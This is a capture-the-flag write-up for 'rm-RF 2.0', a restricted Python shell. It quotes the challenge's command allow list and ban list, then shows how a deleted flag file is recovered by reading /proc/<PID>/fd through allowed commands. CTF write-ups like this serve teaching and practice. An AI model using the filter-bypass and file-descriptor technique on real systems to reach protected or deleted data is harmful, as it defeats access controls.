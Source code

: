 # Challenge name; rm-RF 2.0

### Author: Gourav Suram

### Desc

```
more like a shell

Netcat:
nc rmrf.ctf.teamquark.com 65322

For better experience:
rlwrap nc rmrf.ctf.teamquark.com 65322

```

# Writeup

```python

with open('./flag.txt', 'w') as flag:
    flag.write('quarkCTF{fake_flag_for_testing}')

flag = open('./flag.txt', 'r')

```

- It's creating a file called `flag.txt`
- Later it's reading the contents of flag and storing it in flag variable.


- The user can input commands but are filtered by the prgm on basis of : 

```python

def is_safe_command(cmd):
    allow = ['cat', 'ls', 'whoami', 'cd', 'ps', 'uname', 'date', 'wc']
    ban = ['rm', 'flag.txt', 'flag', 'chall.py', 'chall']
    for i in ban:
        if i in cmd:
            return False
    for i in allow:
        if (i in cmd):
            pattern = r'^[a-zA-Z0-9/. \-]+$'
            return bool(re.match(pattern, cmd))
    return False

```

- only commands under `allow` list can be executed.
- And regex of commands can only contain alpha numberic values with `. / -` in special characters
- And there's a ban list (ofc) which doesn't allow user to have those in their cmd.


- Following snippet tells us that server is deleting flag.txt if commands are executed on the shell

```python

    global count
    if line:
        count += 1
    if count > 1 and count < 3:
        #demnnnnn cmds are runninggggggggg on my shell
        os.system('rm ./flag.txt')

```

- hmmmmm, how to read flag.txt if it's getting deleted.
- As you know, `Everything in linux is a file`.
- This includes processes as well

#### Soln

- We can read the flag.txt because the `flag` variable inside the program has read it/load it.
- We just have to locate the process of the python program and read the files

- What does this mean?

```(gpt)

In Linux, /proc/<PID>/fd is a directory that contains symbolic links to the file
descriptors opened by the process with the corresponding process ID (PID).
Each entry in this directory represents a file descriptor (fd) of the process.


A file descriptor is a non-negative integer used to uniquely identify
an open file within a process. It serves as a reference to a file or
other input/output resource, such as a socket or a pipe.

```

- If a program opens a files, the data get's stored inside the /fd directory until the prgm exits.


#### Flag

```bash

user@rmRF$ ps
    PID TTY          TIME CMD
    193 ?        00:00:00 socat
    194 ?        00:00:00 python3
    196 ?        00:00:00 ps

```

- Yess there's our process id (194)
- If we list our fd

```bash

user@rmRF$ ls -la /proc/194/fd/
total 0
dr-x------. 2 ctf ctf  0 Feb 19 17:51 .
dr-xr-xr-x. 9 ctf ctf  0 Feb 19 17:51 ..
lrwx------. 1 ctf ctf 64 Feb 19 17:52 0 -> socket:[101506]
lrwx------. 1 ctf ctf 64 Feb 19 17:52 1 -> socket:[101506]
l-wx------. 1 ctf ctf 64 Feb 19 17:52 2 -> pipe:[38355]
lrwx------. 1 ctf ctf 64 Feb 19 17:52 3 -> socket:[101509]
lrwx------. 1 ctf ctf 64 Feb 19 17:52 4 -> socket:[101510]
lr-x------. 1 ctf ctf 64 Feb 19 17:51 5 -> /home/ctf/challenge/flag.txt (deleted)
lr-x------. 1 ctf ctf 64 Feb 19 17:52 6 -> pipe:[101546]
lrwx------. 1 ctf ctf 64 Feb 19 17:52 8 -> socket:[101507]

```

> lr-x------. 1 ctf ctf 64 Feb 19 17:51 5 -> /home/ctf/challenge/flag.txt (deleted)

- We can see our deleted file listed here.
- just cat it and grab the flag

```bash

user@rmRF$ cat /proc/194/fd/5
quarkCTF{D3lEt3D_fiL35_4r3_in-FD}

```
